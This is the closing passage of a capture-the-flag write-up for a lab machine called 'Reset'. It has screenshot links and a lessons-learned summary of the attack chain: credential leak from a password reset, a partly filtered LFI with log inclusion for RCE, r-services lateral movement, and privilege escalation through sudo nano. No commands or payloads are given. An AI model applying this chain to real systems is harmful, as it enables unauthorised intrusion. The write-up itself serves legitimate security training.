

That drops us into a root shell right inside the nano interface, which we can use to grab the root flag:




All done!

## Lessons Learned

Reset is a very solid easy box that strings together a bunch of small, realistic misconfigurations rather than one big exploit. The password reset handing back credentials in the response, the LFI that only filters *some* paths, logs being read with `include` instead of read as text. None of those are crazy vulnerabilities, but chained together they walk you straight from an unauthenticated visitor to RCE.

The part I'll actually remember is the r-services lateral move. Those 512/513/514 ports looked like noise on the first scan, but they were one of the main points for this machine. It was cool learning about something that came out decades before I was born, and even CRAZIER to think that systems used to be this trusting at one point in time.

The privesc was a good lesson in not tunnel-visioning on noise in log files. I'm definitely gonna remember to check for tmux sessions in the future on Linux hosts and I think this was the first time I used sudo on nano for priv esc. I actually had no idea there was a command execution function in nano before checking GTFOBins.
